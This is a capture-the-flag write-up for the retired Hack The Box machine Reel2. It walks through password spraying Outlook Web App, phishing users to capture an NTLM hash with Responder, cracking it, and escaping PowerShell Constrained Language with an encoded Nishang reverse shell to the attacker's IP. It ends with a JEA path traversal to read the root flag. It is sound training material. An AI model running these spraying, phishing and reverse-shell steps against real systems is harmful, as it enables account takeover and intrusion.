




# Reel2

This is the write-up for the box Reel2 that got retired at the 13th March 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.210    reel2.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/reel2.nmap 10.10.10.210
```

```
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/http   Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_ssl-date: 2021-12-27T14:16:55+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=Reel2
| Subject Alternative Name: DNS:Reel2, DNS:Reel2.htb.local
| Not valid before: 2020-07-30T10:12:46
|_Not valid after:  2025-07-30T10:12:46
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan found the hostname _reel2.htb.local_ on port 443 in the SSL certificate, that should be put into the _/etc/hosts_ file.

## Checking HTTP (Port 80)

The web server on port 80 responds with the HTTP status code _403 Forbidden_ with every directory that is tried, so lets search for hidden directories and exclude that status code:
```
gobuster -u http://10.10.10.210 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404 -x aspx,asp,asm,asmx
```

It finds the following directories:
- _/owa_
  - Forwards to _/owa/_ and also responds with a HTTP status code _403 Forbidden_
- _/powershell_
  - Status code _401 Unauthorized_

The directory _owa_ stands for **Outlook Web App (OWA)**, which typically is used with HTTPS.

## Checking HTTPS (Port 443)

The web page on HTTPS is the default IIS installation page, so lets search for hidden directories and typical Windows web server extensions with **Gobuster**:
```
gobuster -u https://10.10.10.210 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,asp,asm,asmx -k
```

It finds the directories _/public_ and _/exchange_, which both forward to _/owa_ and shows the login page for **Outlook Web App**.



The directory _/rpc_ asks for credentials and could be used for a **Brute-Force attack**, but some usernames are needed for that first.

## Checking HTTP (Port 8080)

The website on port 8080 greets with a login form and the title _"Welcome to Wallstant"_.
The software [Wallstant](https://github.com/wallstant/wallstant) is an open source project to create a social network written in PHP.



It is possible to _Sign Up_ and it forwards to a social network platform where it shows some usernames on the right side.
When searching anything in the search bar, it forwards to _/search_ and shows even more usernames.

These usernames should be copied to a list as potential usernames for the **OWA** access.

Saving all usernames into a file:
```bash
curl http://10.10.10.210:8080/search | grep user_follow_box_a | grep -oP '<p>(.*?</span)' | sed 's/<p>//g' | sed "s/<br><span style='color:gray;'>@//g" | sed 's/<\/span//g' > users.list
```

With the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) these names can be converted into usual formats that are used in account names:
```
username-anarchy --input-file users.list --select-format first,first.last,f.last,flast > users_spray.list
```

This list of usernames can now be used with a **Password Spraying attack** on the **OWA** platform.

## Attacking Outlook Web App

I will use the [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit), to use a few common passwords against all users.
```
python3 atomizer.py owa 10.10.10.210 Spring2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Summer2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Autumn2020 users_spray.list
python3 atomizer.py owa 10.10.10.210 Winter2020 users_spray.list
```

After using all seasons as the password with the release year of the box, there is one successful login for the account name _s.svensson_ with the password of _Summer2020_.

There are no emails in the mailbox, but with access to the **Global Address List** it is possible to send Phishing mails to all existing users:





After a while the link gets clicked and the listener on my IP and port 80 receives a response:
```
nc -lvnp 80

Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.210.
Ncat: Connection from 10.10.10.210:63435.
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 6.3; en-US) WindowsPowerShell/5.1.14409.1018
Content-Type: application/x-www-form-urlencoded
Host: 10.10.14.6
Content-Length: 0
Connection: Keep-Alive
```

Another mail can be sent, but this time listening with **Responder** to gather an NTLM hash:
```
responder -I tun0
```
```
[HTTP] NTLMv2 Client   : ::ffff:10.10.10.210
[HTTP] NTLMv2 Username : htb\k.svensson
[HTTP] NTLMv2 Hash     : k.svensson::htb:97fb9988700e15f5:9067AC51AC1C30F8ED6739D704B2384E:0101000000000000211A864141FBD701A2(...)
```

After a while the link gets clicked from the user _k.svensson_ and the NTLM hash can be tried to crack with **Hashcat**:
```
hashcat -m 5600 ksvensson.hash /usr/share/wordlists/rockyou.txt
```

It gets cracked and the password of _k.svensson_ is:
> kittycat1

We can use **PowerShell for Linux** with `pwsh` for **PowerShell Remoting** with this user to the box as described in [this blog article](https://thomask.sdf.org/blog/2019/12/15/linux-windows-powershell-remoting-troubleshooting.html):

Creating a secure string for the user and starting a PowerShell session:
```powershell
$pass = ConvertTo-SecureString 'kittycat1' -asplaintext -force
$cred = New-Object System.Management.Automation.PSCredential('htb\k.svensson', $pass)
Enter-PSSession -Computer 10.10.10.210 -Credential $cred -Authentication Negotiate
```

It starts a shell on the box as _k.svensson_.

## Bypassing Constrained Language

Many commands in the shell do not work and that is often because the execution context is in **Constrained Language**:
```
[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
```

The command `Get-Command` shows eight commands that are allowed, but constrained language can be be bypassed by creating a function and executing restricted commands with that:
```
[10.10.10.210]: PS> function test { whoami }
[10.10.10.210]: PS> test
htb\k.svensson
```
```
[10.10.10.210]: P> &{whoami}
htb\k.svensson
```

The script _Invoke-PowerShellTcpOneLine.ps1_ from the **Nishang scripts** will be used as the command to execute:
```
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0
```

Executing reverse shell command as a function:
```
&{powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgB(...) }
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _k.svensson_ without any constraints.

## Privilege Escalation

In the home directory _C:\Users\k.svensson\Documents_ are two interesting files:
- _jea_test_account.psrc_
- _jea_test_account.pssc_

These files are for the [Just Enough Administration (JEA)](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.2) technology to enable delegated administration with PowerShell.

A _.psrc_ file is for [JEA Role Capabilities](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/role-capabilities?view=powershell-7.2) and a _.pssc_ file is for [JEA Session Configurations](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/session-configurations?view=powershell-7.2).

JEA Role Capabilities of the user _jea_test_account_:
```
type jea_test_account.psrc | select-string -notmatch "^#" | select-string .
```
```
@{
GUID = '08c0fdac-36ef-43b5-931f-68171c4c8200'
Author = 'cube0x0'
Copyright = '(c) 2020 cube0x0. All rights reserved.'
FunctionDefinitions = @{
    'Name' = 'Check-File'
    'ScriptBlock' = {param($Path,$ComputerName=$env:COMPUTERNAME) [bool]$Check=$Path -like "D:\*" -or $Path -like
"C:\ProgramData\*" ; if($check) {get-content $Path}} }
}
```

JEA Session Configuration of the user _jea_test_account_:
```
type jea_test_account.pssc | select-string -notmatch "^#" | select-string .
```
```
@{
SchemaVersion = '2.0.0.0'
GUID = 'd6a39756-aa53-4ef6-a74b-37c6a80fd796'
Author = 'cube0x0'
SessionType = 'RestrictedRemoteServer'
RunAsVirtualAccount = $true
RoleDefinitions = @{
    'htb\jea_test_account' = @{
        'RoleCapabilities' = 'jea_test_account' } }
LanguageMode = 'NoLanguage'
}
```

This means that the user _jea_test_account_ is in _NoLanguage_ mode, but can only execute the _Check-File_ function.
As we don't have this users password yet, this will be abused later and the box has to be enumerated for credentials.

In the folder _C:\Users\k.svensson\Deskop_ is a link file _Sticky Notes.lnk_ which is for the **Sticky Notes** Windows program that may contain valuable information.
The contents of the sticky notes are in _C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb\000003.log_:
```
type 000003.log | Format-Hex
```
```
00000080   2E 00 01 31 3F 01 01 7B 22 66 69 72 73 74 22 3A  ...1?..{"first":                       
00000090   22 3C 70 3E 43 72 65 64 65 6E 74 69 61 6C 73 20  "<p>Credentials                        
000000A0   66 6F 72 20 4A 45 41 3C 2F 70 3E 3C 70 3E 6A 65  for JEA</p><p>je                       
000000B0   61 5F 74 65 73 74 5F 61 63 63 6F 75 6E 74 3A 41  a_test_account:A
000000C0   62 21 51 40 76 63 67 5E 25 40 23 31 3C 2F 70 3E  b!Q@vcg^%@#1</p>                       
000000D0   22 2C 22 62 61 63 6B 22 3A 22 72 67 62 28 32 35  ","back":"rgb(25
```

One of the notes has the credentials of the user _jea_test_account_:
> jea_test_account:Ab!Q@vcg^%@#1

I will use **PowerShell for Linux** again to create a secure string for the user and start a PowerShell session:
```powershell
$pass = ConvertTo-SecureString 'Ab!Q@vcg^%@#1' -asplaintext -force
$cred = New-Object System.Management.Automation.PSCredential('htb\jea_test_account', $pass)
Enter-PSSession -Computer 10.10.10.210 -Credential $cred -Authentication Negotiate -ConfigurationName jea_test_account
```

It starts a shell on the box as the user _jea_test_account_.

### Getting the Root Flag

The command `Get-Command` shows the same eight commands as the other user but including the _Check-File_ function that is shown in the **JEA Role Capabilities**.

This function can only be run if the path contains _"D:"_ or _"C:\ProgramData_.

Testing for **Path Traversal**:
```
Check-File C:\ProgramData\..\windows\system32\license.rtf
```

It is possible to use **Path Traversal** to read files in other directories, so the _root.txt_ flag can be read:
```
Check-File C:\ProgramData\..\Users\Administrator\Desktop\root.txt
```
